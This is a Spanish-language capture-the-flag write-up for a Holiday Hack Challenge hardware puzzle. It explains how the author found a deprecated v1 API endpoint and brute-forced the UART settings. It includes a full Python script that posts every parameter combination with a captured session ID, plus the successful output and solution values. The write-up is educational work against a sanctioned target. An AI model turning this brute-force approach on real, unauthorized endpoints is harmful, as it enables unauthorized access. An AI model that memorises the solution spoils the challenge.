


# Hardware Part I - Gold

Se solicita lograr la conexion a una interfaz UART donde, lo que debemos hacer, es conectar correctamente los pines de una placa y configurar ciertos parametros para dicha conexion como, por ejemplo, cantidad de bits de datos, puerto, bits de control, entre otros. Dado que en un inicio no se proporciona ningun tipo de sugerencia respecto a estos valores, no quedo otra mas que inmergirse en el codigo en busqueda de pistas y, por supuesto, de entendimiento de la logica. En este analisis, se hallaron dos bloques fundamentales. 



Por un lado, se halla comentado en el codigo que, si bien ahora el `POST` de validación de la solucion (al servidor) se hace contra la segunda version (v2) de la API, existia previamente la version v1; la cual se indica que es vulnerable a ataques de fuerza bruta. Asimismo, se evidencia en el codigo el formato de esta pegada donde, lo que se valida y envia es lo siguiente:

- `requestID` - uuid que se obtiene de la sesion.
- `payload` - formado por los indices de los valroes asignados a los parámetros de la conexión.
- `voltaje` - valor de voltaje seleccionado en la placa 3V/5V.



Para la fijacion del `requestID`, basto con colocar un breakpoint en una llamada cualquiera y obtener de ahi el uuid enviado. En lo que al voltaje refiere, observando sentencias condicionales en el codigo, se nota que unicamente se procede a llamar a la API cuando el voltaje es igual a 3. Y por ultimo, la parte compleja, el payload tomaria todos los distintos valores posibles en el ataque de fuerza bruta a la v1 hasta dar con la solucion correcta.

### Script de fuerza bruta

```python
url = "https://hhc24-hardwarehacking.holidayhackchallenge.com/api/v1/complete"
async def main():
    async with aiohttp.ClientSession() as session:
        for port in range(0, 4):
            for baud in range(0, 10):
                for parity in range(0, 3):
                    for x in range(0, 4):
                        for stop in range(0, 2):
                            for ctrl in range(0, 4):
                                serial = [port, baud, parity, x, stop, ctrl]
                                payload = {
                                    "requestID": "586be613-ed6a-4e5d-970c-ea00fbc65125",
                                    "serial": serial,
                                    "voltage": 3
                                }
                                body = json.dumps(payload)
                                print(f"Trying: {body}")
                                async with session.post(url, data=body, headers={'Content-Type': 'application/json'}) as response:
                                    if response.status == 200:
                                        print(f"res: {response}")
                                        try:
                                            data = await response.json()
                                            print(f"Data: {data}")
                                            if data is True:
                                                print(f"Success: {payload}, serial: {serial}")
                                                return
                                        except aiohttp.client_exceptions.ContentTypeError:
                                            text = await response.text()
                                            print(f"Error response (not JSON): {text}")
                                    else:
                                        print(f"Error {response.status}: {await response.text()}")
asyncio.run(main())
```

Tal como se puede observar en el script, fue necesario en primer lugar conocer el rango de valores posibles para cada parametro para, posteriormente, irlos asignando de forma ordenada (garantizando recorrer todos los valores posibles), hasta dar con la respuesta del servidor que devuelva el parametro data como true (tal como se valida en el codigo fuente). Notese tambien el valor fijado a la url, donde en lugar de enviarse al endpoint fijado para la v2 de la API, se hace uso de la ruta con v1; aquella mencionada como vulnerable frente a ataques de fuerza bruta.

Fue asi finalmente que, luego de una larga secuencia de llamadas POST al servidos con resultados ineficaces, se obtuvo la solución.

```python
Trying: {"requestID": "586be613-ed6a-4e5d-970c-ea00fbc65125", "serial": [3, 9, 2, 2, 0, 3], "voltage": 3}
res: <ClientResponse(https://hhc24-hardwarehacking.holidayhackchallenge.com/api/v1/complete) [200 OK]>
<CIMultiDictProxy('Content-Type': 'application/json', 'Date': 'Mon, 09 Dec 2024 00:15:28 GMT', 'Content-Length': '5', 'Via': '1.1 google', 'Alt-Svc': 'h3=":443"; ma=2592000,h3-29=":443"; ma=2592000')>

Data: True
Success: {'requestID': '586be613-ed6a-4e5d-970c-ea00fbc65125', 'serial': [3, 9, 2, 2, 0, 3], 'voltage': 3}, serial: [3, 9, 2, 2, 0, 3]
```

Conociendo el valor serial que, en efecto, sirve como solucion, tan solo se procedio a asignar los valores correspondientes a dichos indices en el juego y asignar el voltaje 3 a la placa.
